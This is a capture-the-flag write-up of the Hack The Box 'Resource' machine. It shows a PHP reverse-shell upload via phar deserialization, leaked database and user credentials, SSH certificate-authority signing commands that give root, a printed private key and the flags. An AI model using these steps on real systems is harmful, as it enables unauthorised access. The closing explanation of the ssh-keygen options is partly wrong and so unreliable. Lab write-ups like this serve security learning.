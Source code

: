 ```yaml
---
title: "HTB: Resource Seasonal Machine"
author: "v3l1d"
date: "2024-08-20"
---
```



![](attachment/3bd70dd5104068e4031e06ac1c61711d.png)

**Port Scan**

```
┌──(kali㉿kali)-[~/HTB/Resource]
└─$ cat scan_Complete 
# Nmap 7.94SVN scan initiated Sun Aug 11 14:52:16 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan_Complete 10.10.11.27
Nmap scan report for 10.10.11.27
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 11 14:52:32 2024 -- 1 IP address (1 host up) scanned in 15.74 seconds
```

Visit http://itrc.ssg.htb/ 



![](attachment/712ccf9b98e3eb82338f1bcde7b3513e.png)

On this page you can open a ticket uploading a zip file containing a reverse shell script in php. You can exploit phar deserialization to handle the shell generated on revshell generator:

![](attachment/f1f2f21551a2817bed9305cd5d124173.png)

![](attachment/c85cade67bf78fd22ea7ffe4c4886d54.png)


Upload the file on ticket system and open up its page:

![](attachment/f50a4431998e612de3034ff616a90414.png)

```
http://itrc.ssg.htb/?page=phar://uploads/0d327960dcada2c40fb3b5c0cc99154b3963ecd4.zip/<phpfilename>
without php extension
```

```shell
$ cd /var/www
$ ls
html
itrc
$ cd itrc
$ ls
admin.php
api
assets
create_ticket.php
dashboard.php
db.php
filter.inc.php
footer.inc.php
header.inc.php
home.php
index.php
loggedin.php
login.php
logout.php
register.php
savefile.inc.php
ticket.php
ticket_section.inc.php
uploads
$ cat db.php    
<?php
$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}$ 

```

Credentials found here didn't work neither for ssh or others.
This box looks always broken so i decided to look a writeup and found out that should be present a file in /uploads folder of itrc that i don't have:

![](attachment/836cab1aee6922d645e447bf11a51d46.png)

```
Credentials:
msainristil:82yards2closeit
```

![](attachment/334f5c9284c02ea18b054c4959331e94.png)

In the decommisions_old_ca folder there is priv/pub key pair, that we are going to convert into ssh keys.

```
ssh-keygen -t rsa -b 2048 -f keypair
ssh-keygen -s ca-itrc -n zzinter -I kali keypair.pub 
```


![](attachment/865cfe3a7e89dbf3d5425f2b30dc78e3.png)

When i was www-data i noted that was a port listening on 127.0.0.11, this usuaylly means that we are in adocker container, so trough linpeas i  had a tip about this. Then i used deepce and got:

![](attachment/c3bd47cec612c42278a478ca983b2cd1.png)

RABBIT HOLE, try hard on SSH: https://shivamaharjan.medium.com/ssh-cas-and-principals-630a433d76d6

```
ssh-keygen -t ecdsa -C "The CA" -N "" -f root_key
ssh-keygen -s ./ca-itrc -I CA-signing -n msainristil,zzinter,root -V +1w -z 1 ./root_key.pub

Copy with scp generated files and:

──(kali㉿kali)-[~/HTB/Resource]
└─$ ssh -o CertificateFile=root_key-cert.pub -i root_key root@10.10.11.27            
Linux itrc 5.15.0-117-generic #127-Ubuntu SMP Fri Jul 5 20:13:28 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@itrc:~# ls
```

Even if we logged as root, there's no root flag, so download **sign_key_api.sh** file.

![](attachment/922daa0e3bdaddd8a0a3093c42c89b9f.png)

![](attachment/09598aa1ce18ac9b5f233eecf3a06a09.png)

From zzinter ssh scp this file: **sign_key_api.sh** and modify the file with vim appending **zzinter_temp** and **root_user** as are present in ssh_principals of the box. This is visible generating a public cert for support@ssg.

![](attachment/f1ae315604077afbaba6cfce52ee1e7c.png)

Now sign the private key we obtained with the script, generating a certificate signed 

```
┌──(kali㉿kali)-[~/HTB/Resource/zzinter_keys]
└─$ ./sign_key_api.sh keypair.pub zzinter zzinter_temp > zzinter.cert
```

From a writeup (i needed help) i recover this key that we will use a certificate to generate root ssh-key. Pasted it in root_ssh.cert file
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW 
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc 
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ 
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA 
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV 
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Then login as root on your kali and sign a the private key using this certificate i provided

```
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub
Signed user key keypair-cert.pub: id "root" serial 1 for root_user valid after 2024-08-13T13:24:56
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh-keygen -f keypair-cert.pub -e > root_keypair
┌──(root㉿kali)-[/home/kali/HTB/Resource/zzinter_keys]
└─# ssh -o CertificateFile=keypair-cert.pub -i keypair root@10.10.11.27 -p 2222

```

```
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair //Extract the pub key from private // OR
ssh-keygen -s root_ssh.cert -z 1 -I root -V -1W:forever -n root_user keypair.pub //Use Directly the pub key
```

This command generates a signed SSH user certificate using the `ssh-keygen` tool. Here's what each option does:

- -s root_ssh.cert`: specifies the CA certificate file to use for signing (not shown in the output, but assumed to exist).
- -z 1`: specifies the serial number of the certificate (in this case, 1).
- `-I root`: specifies the principal identity of the certificate (in this case, "root").
- `-V -1W:forever`: specifies the validity period of the certificate (in this case, forever, starting from the current time).
- `-n root_user`: specifies the username of the certificate (in this case, "root_user").
- `keypair.pub`: specifies the output file for the generated public key.

The resulting certificate is stored in `keypair-cert.pub`.

**Flags**

![](attachment/d9314cee50c28c2118e10e586b1ea6b8.png)

```
user: 98a79086fe46218a7edd6abc87eb54f3
root: 495f767f17cf87214179384c1f145b91
```
